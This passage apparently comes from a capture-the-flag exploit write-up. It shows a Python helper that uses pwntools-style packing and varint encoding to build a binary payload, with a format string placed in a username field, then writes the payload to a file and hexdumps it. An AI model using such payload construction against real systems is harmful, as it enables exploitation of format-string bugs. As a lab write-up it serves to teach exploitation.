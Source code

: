 ## Exploit

We know that we want to target the username string. Let's write a helper
function to pack our payload:

```python
def encode_varint(value):
    encoded = bytearray()
    while True:
        byte = value & 0x7f
        value >>= 7
        if value:
            byte |= 0x80  # set continuation bit
            encoded.append(byte)
        else:
            encoded.append(byte)
            break
    return bytes(encoded)

def construct_payload(fmtstr):
    payload = b"\x00"
    payload += p32(0x0)

    # hash
    payload += p8(0xb)
    payload += flat(encode_varint(0x1))
    payload += b"a"

    # name
    payload += p8(0xb)
    payload += flat(encode_varint(len(fmtstr)))
    payload += fmtstr

    # unused
    payload += p8(0xb)
    payload += flat(encode_varint(0x1))
    payload += b"a"

    payload += b"\x00" * 10

    # missed
    payload += p16(0x0001)

    with open("./out", "wb") as file:
        file.write(payload)

    hexdump = os.popen("xxd -p -c0 ./out").read()

    sleep(0.5)

    return hexdump.encode()
```
